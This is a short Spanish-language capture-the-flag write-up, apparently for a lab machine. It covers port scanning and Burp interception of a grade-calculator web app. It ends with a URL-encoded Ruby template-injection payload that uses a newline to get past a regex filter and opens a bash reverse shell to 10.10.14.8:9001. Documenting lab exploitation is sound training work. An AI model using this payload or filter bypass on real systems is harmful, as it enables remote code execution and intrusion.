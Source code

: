 ### Ping
```python
ping -c 1 10.10.11.253
PING 10.10.11.253 (10.10.11.253) 56(84) bytes of data.
64 bytes from 10.10.11.253: icmp_seq=1 ttl=63 time=372 ms

--- 10.10.11.253 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 371.851/371.851/371.851/0.000 ms
```
### TTL 63= Linux
### nmpa
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.08 seconds
```

### Enumeración del puerto 80

![[Pasted image 20240302204849.png]]
en esta parte tenemos una especie de calculadora podemos interactuar e intentar capturar la la petición 
![[Pasted image 20240303152607.png]]
### Burpsuite
interceptamos la petición con burp y al intentar ingresar una reverse shell lo detecta como código malicioso
![[Pasted image 20240303152515.png]]


### Info
tenemos informacion de come ejecutar un Execute Code
![[Pasted image 20240303203611.png]]
en este caso tenemos que agregar un salto de linea para que ruby pueda interpretar el comando %OA mas comando a inyectar

```python
	test%0A<%25%3d+system("bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.8/9001+0>%261'")+%25>
```
### regex ruby bypass

![[Pasted image 20240303203414.png]]
###### inyectamos este comando y usamos URL_ENCODE para poder baypassear 

de esta manera podemos tener acceso
![[Pasted image 20240303204746.png]]

